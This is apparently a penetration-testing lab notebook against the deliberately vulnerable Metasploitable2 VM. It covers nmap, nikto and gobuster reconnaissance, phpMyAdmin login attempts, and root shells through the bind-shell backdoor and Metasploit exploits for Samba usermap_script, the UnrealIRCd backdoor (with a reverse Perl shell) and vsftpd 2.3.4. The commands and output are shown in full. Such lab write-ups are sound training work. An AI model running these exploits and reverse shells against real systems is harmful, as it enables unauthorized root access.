




- [recon](#recon)
	- [nmap](#nmap)
	- [nikto](#nikto)
	- [gobuster](#gobuster)
	- [nessus](#nessus)
- [exploit in progress](#exploit-in-progress)
	- [php → not done](#php--not-done)
	- [telnet](#telnet)
	- [postgresql](#postgresql)
- [exploited](#exploited)
	- [vnc (remmina)](#vnc-remmina)
	- [bind shell backdoor (nc)](#bind-shell-backdoor-nc)
	- [samba (msf)](#samba-msf)
	- [UnrealIRCD (msf)](#unrealircd-msf)
	- [ftp (msf)](#ftp-msf)

## recon

### nmap

```bash
$ nmap -A -p- 192.168.187.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 05:11 EDT                                                                       
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan                                                           
Service scan Timing: About 96.67% done; ETC: 05:12 (0:00:01 remaining)                                                                
Stats: 0:00:52 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan                                                           
Service scan Timing: About 96.67% done; ETC: 05:12 (0:00:02 remaining)                                                                
Stats: 0:02:23 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan                                                            
NSE Timing: About 97.69% done; ETC: 05:14 (0:00:00 remaining)                                                                         
Nmap scan report for 192.168.187.129                                                                                                  
Host is up (0.0039s latency).                                                                                                         
Not shown: 65505 closed ports                                                                                                         
PORT      STATE SERVICE     VERSION                                                                                                   
21/tcp    open  ftp         vsftpd 2.3.4                                                                                              
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                
| ftp-syst:                                                                                                                           
|   STAT:                                                                                                                             
| FTP server status:                                                                                                                  
|      Connected to 192.168.187.128                                                                                                   
|      Logged in as ftp                                                                                                               
|      TYPE: ASCII                                                                                                                    
|      No session bandwidth limit                                                                                                     
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: 2020-07-10T09:14:20+00:00; +5s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
53/tcp    open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp   open  exec        netkit-rsh rexecd
513/tcp   open  login?
514/tcp   open  tcpwrapped
1099/tcp  open  java-rmi    GNU Classpath grmiregistry
1524/tcp  open  bindshell   Metasploitable root shell
2049/tcp  open  nfs         2-4 (RPC #100003)
2121/tcp  open  ftp         ProFTPD 1.3.1
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 11
|   Capabilities flags: 43564
|   Some Capabilities: Support41Auth, SupportsTransactions, ConnectWithDatabase, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, LongColumnFlag, SupportsCompression
|   Status: Autocommit
|_  Salt: (5se"s@&<<X%O@3}@bN?
3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
|_ssl-date: 2020-07-10T09:14:20+00:00; +5s from scanner time.
5900/tcp  open  vnc         VNC (protocol 3.3)
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
6000/tcp  open  X11         (access denied)
6667/tcp  open  irc         UnrealIRCd
6697/tcp  open  irc         UnrealIRCd (Admin email admin@Metasploitable.LAN)
8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/5.5
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
35987/tcp open  nlockmgr    1-4 (RPC #100021)
42193/tcp open  status      1 (RPC #100024)
42695/tcp open  java-rmi    GNU Classpath grmiregistry
59064/tcp open  mountd      1-3 (RPC #100005)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h00m04s, deviation: 2h00m00s, median: 4s
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2020-07-10T05:14:07-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 216.90 seconds
```

### nikto

```
$ nikto -h 192.168.187.129
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.187.129
+ Target Hostname:    192.168.187.129
+ Target Port:        80
+ Start Time:         2020-07-10 05:15:16 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) DAV/2
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.10
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ /phpinfo.php: Output from the phpinfo() function was found.
+ OSVDB-3268: /doc/: Directory indexing found.
+ OSVDB-48: /doc/: The /doc/ directory is browsable. This may be /usr/doc.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpMyAdmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Server may leak inodes via ETags, header found with file /phpMyAdmin/ChangeLog, inode: 92462, size: 40540, mtime: Tue Dec  9 12:24:00 2008
+ OSVDB-3092: /phpMyAdmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /test/: Directory indexing found.
+ OSVDB-3092: /test/: This might be interesting...
+ OSVDB-3233: /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.                                                                                                                                     
+ OSVDB-3268: /icons/: Directory indexing found.                                                                                      
+ OSVDB-3233: /icons/README: Apache default file found.                                                                               
+ /phpMyAdmin/: phpMyAdmin directory found                                                                                            
+ OSVDB-3092: /phpMyAdmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.                                                                                                                           
+ OSVDB-3092: /phpMyAdmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts. 
+ 8726 requests: 0 error(s) and 27 item(s) reported on remote host                                                                    
+ End Time:           2020-07-10 05:15:45 (GMT-4) (29 seconds)                                                                        
---------------------------------------------------------------------------
```

### gobuster

```bash
$ gobuster dir -u 192.168.187.129 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.187.129
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/10 05:17:27 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/cgi-bin/ (Status: 403)
/dav (Status: 301)
/index (Status: 200)
/index.php (Status: 200)
/phpMyAdmin (Status: 301)
/phpinfo (Status: 200)
/phpinfo.php (Status: 200)
/server-status (Status: 403)
/test (Status: 301)
/twiki (Status: 301)
===============================================================
2020/07/10 05:17:28 Finished
===============================================================
```

[http://192.168.187.129/test/testoutput/ESAPI_logging_file_test](http://192.168.187.129/test/testoutput/ESAPI_logging_file_test) → OWASP Enterprise Security API

[http://192.168.187.129/dav/RqU2HlUk.htm/](http://192.168.187.129/dav/RqU2HlUk.htm/)

### nessus



## exploit in progress

### php → not done

[http://192.168.187.129/phpMyAdmin/](http://192.168.187.129/phpMyAdmin/)

Cannot load mcrypt extension. Please check your PHP configuration.

try to log in, [http://192.168.187.129/phpMyAdmin/index.php?token=19c1bc56375625feee6b712fae8353e1](http://192.168.187.129/phpMyAdmin/index.php?token=19c1bc56375625feee6b712fae8353e1) (token doesn't change)

#1045 - Access denied for user 'admin'@'localhost' (using password: YES)

#1045 - Access denied for user 'admin'@'localhost' (using password: NO)

```bash
POST /phpMyAdmin/index.php HTTP/1.1
Host: 192.168.187.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.187.129/phpMyAdmin/index.php?token=19c1bc56375625feee6b712fae8353e1000
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Connection: close
Cookie: phpMyAdmin=b9df7e0679699031359e109c272dfc1e577ace36; pma_lang=en-utf-8; pma_charset=utf-8; pmaUser-1=7LnQydOPsek%3D; pma_theme=original; PHPSESSID=e1331ef5942d773d4e660ea432bfaff2
Upgrade-Insecure-Requests: 1

pma_username=admin&pma_password=password&server=1&token=19c1bc56375625feee6b712fae8353e1

--

GET /folders HTTP/1.1
Host: kali:8834
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://kali:8834/
Content-Type: application/json
X-API-Token: e8da15a0-cfc8-449e-8f5b-5f65fb05f741
X-Cookie: token=743b5802d6932e6a3449fc7afdf6c028aa0362342b4e4a4c
Connection: close

--

GET /scans/12?limit=2500&includeHostDetailsForHostDiscovery=true HTTP/1.1

--

GET /server/notifications?last_modified=1594373656 HTTP/1.1
```

[http://192.168.187.129/phpinfo](http://192.168.187.129/phpinfo)

```bash
PHP Logo
PHP Version 5.2.4-2ubuntu5.10

System 	Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
Build Date 	Jan 6 2010 21:50:12
Server API 	CGI/FastCGI
Virtual Directory Support 	disabled
Configuration File (php.ini) Path 	/etc/php5/cgi
Loaded Configuration File 	/etc/php5/cgi/php.ini
Scan this dir for additional .ini files 	/etc/php5/cgi/conf.d
additional .ini files parsed 	/etc/php5/cgi/conf.d/gd.ini, /etc/php5/cgi/conf.d/mysql.ini, /etc/php5/cgi/conf.d/mysqli.ini, /etc/php5/cgi/conf.d/pdo.ini, /etc/php5/cgi/conf.d/pdo_mysql.ini
PHP API 	20041225
PHP Extension 	20060613
Zend Extension 	220060519
Debug Build 	no
Thread Safety 	disabled
Zend Memory Manager 	enabled
IPv6 Support 	enabled
Registered PHP Streams 	zip, php, file, data, http, ftp, compress.bzip2, compress.zlib, https, ftps
Registered Stream Socket Transports 	tcp, udp, unix, udg, ssl, sslv3, sslv2, tls
Registered Stream Filters 	string.rot13, string.toupper, string.tolower, string.strip_tags, convert.*, consumed, convert.iconv.*, bzip2.*, zlib.*
[...]
```

### telnet

```bash
$ telnet 192.168.187.129
Trying 192.168.187.129...
Connected to 192.168.187.129.
Escape character is '^]'.
                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          

Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started

metasploitable login:
```

### postgresql

```
$ searchsploit PostgreSQL 
PostgreSQL 8.2/8.3/8.4 - UDF for Command Execution                                                  | linux/local/7855.txt
```

## exploited

### vnc (remmina)



Use Remmina:



### bind shell backdoor (nc)



[http://192.168.187.129:1524/](http://192.168.187.129:1524/)

```bash
$ nc 192.168.187.129 1524
root@metasploitable:/#
```

```bash
root@metasploitable:/# <HTML>
<HEAD>
<TITLE>Directory /</TITLE>
<BASE HREF="file:/">
</HEAD>
<BODY>
<H1>Directory listing of /</H1>
<UL>
<LI><A HREF="./">./</A>
<LI><A HREF="../">../</A>
<LI><A HREF="bin/">bin/</A>
<LI><A HREF="boot/">boot/</A>
<LI><A HREF="cdrom/">cdrom/</A>
<LI><A HREF="dev/">dev/</A>
<LI><A HREF="etc/">etc/</A>
<LI><A HREF="home/">home/</A>
<LI><A HREF="initrd/">initrd/</A>
<LI><A HREF="initrd.img">initrd.img</A>
<LI><A HREF="lib/">lib/</A>
<LI><A HREF="lost%2Bfound/">lost+found/</A>
<LI><A HREF="media/">media/</A>
<LI><A HREF="mnt/">mnt/</A>
<LI><A HREF="nohup.out">nohup.out</A>
<LI><A HREF="opt/">opt/</A>
<LI><A HREF="proc/">proc/</A>
<LI><A HREF="root/">root/</A>
<LI><A HREF="sbin/">sbin/</A>
<LI><A HREF="srv/">srv/</A>
<LI><A HREF="sys/">sys/</A>
<LI><A HREF="tmp/">tmp/</A>
<LI><A HREF="usr/">usr/</A>
<LI><A HREF="var/">var/</A>
<LI><A HREF="vmlinuz">vmlinuz</A>
</UL>
</BODY>
</HTML>
<!doctype html><html lang="en"><head><meta http-equiv="content-type" content="text/html;charset=utf-8"><meta name="viewport" content="width=device-width,initial-scale=1"><link rel="shortcut icon" href="data:image/x-icon;," type="image/x-icon"><title></title><script src="https://www.google.com/adsense/domains/caf.js" type="text/javascript"></script><noscript><style>#content-main{display:none}</style><div>For full functionality of this site it is necessary to enable JavaScript. Here are the <a target="_blank" href="https://www.enable-javascript.com/">instructions how to enable JavaScript in your web browser</a>.</div></noscript></head><body><div id="contentMain"></div><script type="text/javascript" src="https://d1hi41nc56pmug.cloudfront.net/static/js/main.314a8987.js"></script></body></html>root@metasploitable:/# root@metasploitable:/# bash: Host:: command not found
root@metasploitable:/# root@metasploitable:/# bash: syntax error near unexpected token `('
root@metasploitable:/# root@metasploitable:/# bash: Accept:: command not found
root@metasploitable:/# root@metasploitable:/# bash: Accept-Language:: command not found
root@metasploitable:/# root@metasploitable:/# bash: Accept-Encoding:: command not found
root@metasploitable:/# root@metasploitable:/# bash: Connection:: command not found
root@metasploitable:/# root@metasploitable:/# bash: Upgrade-Insecure-Requests:: command not found
root@metasploitable:/# root@metasploitable:/# root@metasploitable:/# root@metasploitable:/#
```

### samba (msf)

```bash
kali@kali:~$ searchsploit samba
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                    | unix/remote/16320.rb

msf5 > search "samba"
13  exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
msf5 > use 13
msf5 exploit(multi/samba/usermap_script) > set rhosts 192.168.187.129
msf5 exploit(multi/samba/usermap_script) > run
[*] Started reverse TCP handler on 192.168.187.128:4444 
[*] Command shell session 1 opened (192.168.187.128:4444 -> 192.168.187.129:49244) at 2020-07-10 06:12:09 -0400
whoami
root
```

### UnrealIRCD (msf)

```bash
msf5 > search UnrealIRCd
0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
msf5 > use 0
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhosts 192.168.187.129
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run
[-] 192.168.187.129:6667 - Exploit failed: An exploitation error occurred.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse_perl
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set lhost 192.168.187.128
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 192.168.187.128:4444 
[*] 192.168.187.129:6667 - Connected to 192.168.187.129:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.187.129:6667 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.187.128:4444 -> 192.168.187.129:48263) at 2020-07-10 06:23:36 -0400

whoami
root
```

### ftp (msf)

```bash
$ ftp 192.168.187.129
Connected to 192.168.187.129.
220 (vsFTPd 2.3.4)
Name (192.168.187.129:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.

msf5 > search vsftpd
 0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
msf5 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.187.129
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 192.168.187.129:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.187.129:21 - USER: 331 Please specify the password.
[+] 192.168.187.129:21 - Backdoor service has been spawned, handling...
[+] 192.168.187.129:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.187.129:6200) at 2020-07-13 03:32:15 -0400
whoami
root
```